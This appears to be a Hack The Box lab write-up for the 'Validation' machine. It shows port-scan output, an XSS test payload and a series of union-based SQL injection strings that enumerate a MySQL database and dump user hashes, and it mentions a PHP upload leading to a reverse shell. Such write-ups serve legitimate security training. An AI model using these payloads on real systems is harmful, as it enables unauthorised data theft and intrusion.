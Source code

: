 ```yaml
---
layout: single
title: Validation - Hack The Box
excerpt: "Perfect for learning basic SQLi"
date: 2022-12-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-validation/validation1.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - linux
  - SQLi
  - XSS
---
```


![](/assets/images/htb-writeup-validation/validation1.png)

Beginner machine with an SQLi in a static cookie and the country parameter.

## Portscan

```bash
Nmap scan report for 10.129.23.139
Host is up (0.050s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's check port 80
```bash
❯ whatweb http://10.129.23.139:80/
http://10.129.23.139/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.129.23.139], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```
PHP like programming language. Good to keep in mind

## Web 

It is vulnerable to HTML injection and XSS.
```bash
<h1>Testing HTML injection</h1>
<script>alert("XSS")</script>
```
How is data being sent? Time to use Burpsuite.
![](/assets/images/htb-writeup-validation/validation2.png)
```bash
burpsuite &> /dev/null &
disown //In order to make the process independent
```
First of all, the cookie given by the server is the same all the time for the input that we insert. We could abuse that copying the md5 hash created and pasting in the storage space (developer tools). You could try it. Static php cookie
![](/assets/images/htb-writeup-validation/validation3.png)
```bash
❯ echo -n 'm1l0js' | md5sum
f49775f4b37981eb269a05abccba27cf
```
Let's focus on the country parameter and test an SQLi. We need to know how many databases exist.
![](/assets/images/htb-writeup-validation/validation4.png)
After that, we are going to get as much information as possible
- username=m1l0js&country=Brazil' union select database()-- -
- username=m1l0js&country=Brazil' union select version()-- -
- username=m1l0js&country=Brazil' union select schema_name from information_schema.schemata-- 
- username=m1l0js&country=Brazil' union select table_name from information_schema.tables where table_schema="registration"-- -
- username=m1l0js&country=Brazil' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -
- username=m1l0js&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -

![](/assets/images/htb-writeup-validation/validation5.png)

These are hashes belonging to the users we have tested. This information is useless. But, can we upload files?
![](/assets/images/htb-writeup-validation/validation6.png)

We know that this website uses PHP. What if we try something?
![](/assets/images/htb-writeup-validation/validation7.png)
So now, it would be necessary to obtain a reverse shell

![](/assets/images/htb-writeup-validation/validation8.png)

I had automated all this. Check it
[validation.py](https://github.com/m1l0js/automationHTB/blob/main/validation.py)

Thanks for your time.

